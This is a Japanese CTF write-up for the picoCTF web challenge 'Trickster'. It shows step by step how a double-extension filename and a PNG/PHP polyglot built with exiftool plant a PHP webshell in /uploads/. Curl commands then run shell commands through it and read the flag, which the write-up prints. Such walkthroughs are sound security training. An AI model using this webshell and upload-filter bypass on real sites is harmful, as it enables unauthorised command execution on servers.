 # Trickster:Web Exploitation:300pts
I found a web app that can help process images: PNG images only!  
Try it [here](http://atlas.picoctf.net:60018/)!  

# Solution
URLが渡されるのでアクセスすると、PNGをアップロードできるサイトのようだ。  
![site.png](site/site.png)  
適当な`test.png`をアップロードすると以下のように表示される。  
```
File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully
```
アップロード先は教えられない。  
おそらくwebshellの設置問題と予想し、ファイル名を`test.php`にすると以下の通り怒られる。  
```
Error: File name does not contain '.png'.
```
`.png`をファイル名に含めればよいらしいので、`test.png.php`としてやればよい。  
これでアップロードに成功するが、画像を閲覧するパスがわからず、ファイル名によるトラバーサルも有効でない。  
ふと`robots.txt`を見ると以下の通りであった。  
```bash
$ curl http://atlas.picoctf.net:60018/robots.txt
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
`/uploads/`なる怪しい場所がある。  
ここにアップロードされるようなので、以下のファイルを`file.png.php`としてアップロードする。  
```php
<?php system($_GET["cmd"]); ?>
```
すると以下の通り怒られる。  
```
Error: The file is not a valid PNG image: 3c3f7068
```
PNGかどうかチェックしているようだ。  
正常なPNGファイルにwebshellとなる文字列を含ませたPolyglotを作ってやればよい。  
以下のようにコメントを利用した、`attack.png.php`を作成する。  
```bash
$ exiftool -Comment='<?php system($_GET["cmd"]); ?>' satoki.png
    1 image files updated
$ cp satoki.png attack.png.php
```
アップロードを行った後、以下のようにwebshellからコマンドを実行する。  
```bash
$ curl -s 'http://atlas.picoctf.net:60018/uploads/attack.png.php?cmd=ls' | strings
IHDR
sRGB
gAMA
        pHYs
&tEXtComment
attack.png.php
test.png
test.png.php
~~~
$ curl -s 'http://atlas.picoctf.net:60018/uploads/attack.png.php?cmd=ls%20../' | string
~~~
MQZWCYZWGI2WE.txt
index.php
instructions.txt
robots.txt
uploads
~~~
$ curl -s 'http://atlas.picoctf.net:60018/uploads/attack.png.php?cmd=cat%20../MQZWCYZWGI2WE.txt' | strings
~~~
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b} */
~~~
```
一つ上に`MQZWCYZWGI2WE.txt`なるファイルがあり、flagが書かれていた。  

## picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}